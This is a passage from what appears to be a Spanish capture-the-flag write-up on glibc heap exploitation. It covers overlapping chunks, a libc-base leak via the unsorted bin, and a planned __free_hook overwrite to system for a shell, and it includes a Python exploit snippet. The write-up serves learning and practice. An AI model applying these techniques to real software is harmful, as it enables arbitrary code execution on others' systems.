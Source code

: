     [ 0x100 | nuevo chunk      ] [ 0xe0 | ULTIMO   ] [0x21|fake] [ size | top chunk ]
                                 [ 0xe0 | datos chunk 2        ] 

Justamente por compartir memoria, el campo size del chunk 2 ha sido sobrescrito con el valor 0xe0. Hay que tenerlo en cuenta, porque cuando lo liberemos se irá al unsorted bin de ese tamaño.

Finalmente, al liberar el chunk 2 original, `free` enviará ese chunk al unsorted bin (tiene el tamaño adecuado), y de paso establecerá los campos fd y bk que comparten posición con los datos de usuario, y los estalecerá a la dirección del main_arena, dado que es el primero de este tamaño que llega.

Solo nos falta, como en el capítulo anterior, mostrar el último chunk para obtener la dirección base de libc.

Traducido a código:
```python
# Creamos 3 chunks, el primero de ellos solamente para poder utilizar la opción fix del reto
add(0, 0xf8)    
add(1, 0xf8)                        # chunk 1
add(2, 0xf8, "p"*0xd8 + pack(0x21)) # chunk 2

# Modificamos el tamaño del chunk 1. Le ampliamos su tamaño, y lo liberamos.
fix(0, 0xf8, "\xe1")
delete(1)

# Creamos un chunk hasta el límite del chunk 2
add(0, 0xf8)

# Creamos otro chunk que solape con 2
add(0, 0xd8)

# Liberamos el chunk2 original. 
delete(2)

# Dumpeamos y sacamos el mainarena y libc base
dump(0)
leak = unpack( io.recv(6).ljust(8,"\x00") )
libc_address = leak - 0x1e4ca0 
log.info("libc address. %16x", libc_address)
```


## Obteniendo shell

En este tipo de retos, lo habitual es sobrescribie una dirección de memoria que contiene funciones de ayuda a la depuración de libc, concretamente `__free_hook` y `__malloc_hook`. Estas funciones, si están definidas, se llamarán cada vez que se reserve o libere un bloque de memoria.

La más práctica es `__free_hook`, ya que recibe como parámetro la dirección de un chunk, que habremos reservado previamente con el valor `/bin/sh`. Si hemos establecido `__free_hook` a la dirección de `system`, al liberar este bloque obtendremos shell.

Para poder escribir en esa dirección de memoria, primero tenemos que conseguir que `calloc` devuelva un puntero a una zona de memoria cercana. Para ello, debemos modificar el campo fd de un chunk que se encuentre en fastbin, que tiene menos medidas de seguridad al tratarse de una lista simplemente enlazada. Además, necesitamos que el chunk nuevo en esa zona de memoria tenga el tamaño adecuado, es decir, que donde vaya a asignarse haya algo que nos sirva como tamaño.
